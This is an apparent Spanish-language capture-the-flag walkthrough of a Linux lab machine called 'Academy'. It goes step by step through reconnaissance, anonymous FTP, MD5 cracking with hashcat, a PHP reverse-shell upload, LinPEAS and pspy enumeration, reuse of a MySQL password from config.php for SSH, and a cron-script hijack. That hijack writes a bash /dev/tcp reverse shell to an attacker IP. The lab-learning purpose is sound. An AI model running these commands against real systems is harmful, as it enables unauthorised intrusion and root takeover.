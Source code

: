 ## Summary

Tags: #FTP #SSH #HTTP #Hash #HashCat #ReverShell #LinPEAS #www-data #PSPY #Linux 

- IP -> 192.168.68.110
- Ports -> TCP (21,22,80,), UDP (idk)
- OS ->  Linux
- Services & Applications
    - FTP -> anonymous allowed
    - HTTP -> Apache2 httpd 2.4.38

## Recon

```bash
❯ arp-scan -I ens33 --localnet --ignoredups              # Para hacer un escaneo de la red 

	# I = i mayuscula; es la interface ens33
	# ignoredups = Ignora IPs duplicadas 
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

Para conectarnos al servidor
```bash
❯ ftp ❮IP❯                              # Si el servidor nos lo permite nos podemos conectar como Anonymous sin colocar password.

	❯ dir / ls                              # Listar el contenido del directorio
	❯ get ❮File❯                            # Podemos copiarnos un archivo.
```
Encontramos un archivo llamado **note.txt** en donde podemos observar un **UserID:Hash**

```bash 
❯ hash-identifier                           # Abriremos la tool y desoues colocaremos el hash a encontrar
```
Nos muestra que el Hash es: MD5

Usaremos Hashcat para hacer fuerza bruta al Hash
```bash
❯ hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt 

	# m = 0 = MD5
	# hashes.txt = Archivo que contiene el hash
```
Como resultado nos da que la passwd: student

Dirbuster de manera no grafica
```bash
❯ dirb http://<IP>
```

O podemos usar Ffuf
```bash
❯ ffuf -u http://❮IP❯/FUZZ -w /usr/share/seclists/dirbuster/directory-list-2.3-medium.txt:FUZZ

	# u -> url 
	# w -> ruta del diccionario 
	# FUZZ -> Ahi se van a sustituir las palabras del diccionario
```

Entramos a la web con el Dir que encontramos de **Academy** ahi introducimos el User:Passwd


## User
Observarmos que podemos subir una 'imagen', pero en lugar de eso vamos a subir un archivo que contenga una ReverShell en PHP.
* [ReverShell-PHP](https://github.com/pentestmonkey/php-reverse-shell)
Ahi encontraremos una ReverShell en donde copiaremos el RAW y lo pegaremos en un archivo 'shell.php' en nuestra maquina de atacante. En ese archivo le cambiaremos a nuestra IP y nuestro Puerto. 
* El archivo creado, lo subiremos a la web 

```bash
❯ nc -nlvp 443                          # Nos ponemos en escucha parta recibir la ReverShell  
```
Ahora hemos obtenido acceso a la maquina como el usuario **www-data**

Ahora tendremos que hacer escalada de privilegios
```bash
❯ sudo -l                               # Para ver si tenemos privilegios en el Sudoers (l=ele), que podamos ejecutar comandos como (root) NOPASSWD
```

Usaremos LinPEAS para ver las vulnerabilidades y asi poder escalar privilegios.
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)    ->   Te muestra todas las vulnerabilidades que existen en esa distribucion 

Una vez descargado, lo que debemos de hacer es subirlo a la maquina victima.
```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 en donde se encuentra el LinPeas
```

Para poder subirlo, siempre debemos de irnos al directorio de **/tmp** en la maquina victima ya que ahi hay permisos de lectura y escritura.
```bash
❯ cd /tmp  
```

Comando que ejecutaremos en la maquina victima para descargarnos el linpeas desde la maquina de atacante
```bash
❯ wget http://❮IP❯/linpeas.sh                   # Para poder cargar o descargar un archivo especifico desde una IP de atacante
```

```bash
❯ chmod u+x linpeas.sh                          # Le cambiamos los permisos a un archivo (r=read, w=write, x=execution, u=user, g=grupo, o=other)
```

```bash
❯ ./linpeas.sh                                  # Para ejecutar el binario, podremos ver los diferentes colores y ahi podremos ver en donde es mas facil poder hacer el (PE=Privilege Escalation)
```

* Encontramos un archivo en la siguiente ruta **/home/grimmie/backup.sh** 
* Ademas de una passwd para mysql **My_V3ryS3cur3_P4ss** en la ruta **/var/www/html/academy/includes/config.php**

```bash
❯ cat /etc/passwd             # Podemos ver los usuarios, no las passwd. Los usuarios tiene /bin/bash al final 
```
Observamos que Grimmie es Administrador.

Como el puerto 22 estaba abieto, podemos entrar usando la passwd que encontramos y el usuario Administrador
```bash
❯  ssh grimmie@192.168.68.110                                  # Para conectarnos por ssh en el puerto default 22
```
Ahora somos Grimmie

Miramos que en el home del usaurio Grimmie hay un archivo que se ejecuta cada cierto tiempo. Por lo que 
```bash
❯ crontab -l                         # Ver las tareas CRON (l=ele) del sistema
❯ crontab -u root -l                 # Pero nos pide privilegios de root
```

```bash
❯ systemctl list-timers              # Para ver cada cuanto tiempo se ejecuta una tarea
```


-   **Herramienta PSPY**: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)
Esta herramienta nos ayudara a identificar tareas, procesos que se estan ejecutando.
	Releases > Improved troubleshooting > **pspy64** -> Binario que debemos de descargar
Nos descargamos esta herramienta 
```bash
❯ ./pspy                            # Ejecutamos el binario 
```

Una vez descargado, lo que debemos de hacer es subirlo a la maquina victima.
```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 en donde se encuentra el LinPeas
```

Comando que ejecutaremos en la maquina victima para descargarnos el pspy64 desde la maquina de atacante
```bash
❯ wget http://❮IP❯/pspy64                   # Para poder cargar o descargar un archivo especifico desde una IP de atacante
```


## Root

Para escalar privilegios, podemos modificar el archivo del backup.sh que se esta ejecuando cada cierto tiempo,  borrarle el conetnido y colocarle la ReverShell

```bash
❯ nano backup.sh
	bash -i >& /dev/tcp/10.10.14.13/443 0>&1         # Colocamos nuestra IP y nuestro Puerto de atacante
```

```bash
❯ nc -nlvp 443        # Nos ponemos en escucha
```

Despues de un tiempo, cuando se ejecute de nuevo la tarea ahora nos hara root.

